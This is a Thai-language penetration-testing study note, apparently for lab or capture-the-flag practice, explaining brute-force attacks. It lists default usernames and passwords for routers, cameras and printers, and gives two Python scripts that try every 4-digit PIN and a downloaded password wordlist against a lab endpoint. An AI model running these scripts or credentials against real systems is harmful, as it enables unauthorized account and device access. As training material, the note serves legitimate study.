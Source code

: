 **Brute-Forcing** คือ การสุ่มความเป็นไปได้ เช่น การสุ่มรหัสผ่าน การสุ่มชื่อผู้ใช้รวมไปถึงการสุ่มเพื่อถอดรหัสต่าง(hash)<br>ปัจจัยที่มีผลต่อความสำเร็จในการโจมตีแบบนี้ ได้แก่
- **ความซับซ้อน** -> การที่รหัสผ่านมีความยาวที่มาก มีการผสมระหว่างตัวอักษรเล็กและใหญ่รวมถึงตัวเลขและอักขรพิเศษ ทำให้ยากต่อการที่จะโจมตีสำเร็จ
- **พลังการประมวลผล** -> ในปัจจุบัน ฮาร์ดแวร์ได้พัฒนาไปไกลมาก มีพลังการคำนวนที่มากขึ้น ส่งผลให้เพิ่มโอกาสที่จะโจมตีสำเร็จมากขึ้น
- **การรักษาความปลอดภัย** -> อาจมีการเก็บรหัสผ่านและชื่อผู้ใช้โดยการ hash และหลีกเลี่ยงที่จะเก็บแบบ plain text รวมไปถึงการทำให้การโจมตีแบบนี้ทำได้ช้าลง ส่งผลผลให้ต้องใช้เวลานานมากขึ้นในการโจมตี

![](picture_CPTS/brute_how_work.png)
## Default Password 
[Top-Username-list.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)

| **Device/Manufacturer** | **Default Username** | **Default Password** | **Device Type**              |
| ----------------------- | -------------------- | -------------------- | ---------------------------- |
| Linksys Router          | admin                | admin                | Wireless Router              |
| D-Link Router           | admin                | admin                | Wireless Router              |
| Netgear Router          | admin                | password             | Wireless Router              |
| TP-Link Router          | admin                | admin                | Wireless Router              |
| Cisco Router            | cisco                | cisco                | Network Router               |
| Asus Router             | admin                | admin                | Wireless Router              |
| Belkin Router           | admin                | password             | Wireless Router              |
| Zyxel Router            | admin                | 1234                 | Wireless Router              |
| Samsung SmartCam        | admin                | 4321                 | IP Camera                    |
| Hikvision DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
| Axis IP Camera          | root                 | pass                 | IP Camera                    |
| Ubiquiti UniFi AP       | ubnt                 | ubnt                 | Wireless Access Point        |
| Canon Printer           | admin                | admin                | Network Printer              |
| Honeywell Thermostat    | admin                | 1234                 | Smart Thermostat             |
| Panasonic DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
## ตัวอย่าง script ที่ใช้ brute-force 
### pin brute-force
```python
import requests

ip = "127.0.0.1" # target IP
port = "8888" # target port

# try 4-digit PINs (0000 -> 9999)
for pin in range(10000):
	format_pin = f"{pin:04d}" # convert number e.g., pin=7 -> 0007
	print(f"Attempted PIN: {format_pin}")
	
	try:
		response = requests.get(f"http://{ip}:{port}/pin?pin={format_pin}")
		if response.ok:
			data = response.json()
				if "flag" in data:
					print(f"Found PIN: {format_pin}")
					print(f"Flag is: {data['flag']}")
					break
	except requests.exceptions.RequestException as e:
		print(f"Error: {e}")
```

### directory brute-force
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

